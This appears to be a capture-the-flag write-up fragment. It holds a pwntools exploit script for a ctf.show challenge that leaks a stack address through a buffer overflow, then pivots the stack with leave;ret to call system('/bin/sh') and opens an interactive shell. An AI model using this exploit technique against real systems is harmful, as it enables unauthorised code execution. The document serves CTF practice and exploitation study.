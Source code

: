 ![Untitled](Stack%2095229ecbb2f1486a9533db3b1ce3a54d/Untitled%201.png)

```python
from pwn import *

sh = remote("pwn.challenge.ctf.show",28278)
elf = ELF("./pwn")

context.log_level ='debug'
leave_ret = 0x080484d5
system_plt = elf.plt['system']

sh.recvuntil("codename:\n")
payload = b"a"*(0x24)+b"show"
sh.send(payload)
sh.recvuntil("show")
ebp = u32(sh.recv(4))
print(ebp)

buf_s = ebp - 0x38
sh.recvuntil("do?\n")
payload2 = p32(system_plt)+b'dead'+p32(buf_s+0xc) + b"/bin/sh\x00" 
payload2 = payload2.ljust(0x28)
payload2 += p32(buf_s-4)+p32(leave_ret)

sh.sendline(payload2)

sh.interactive()
```

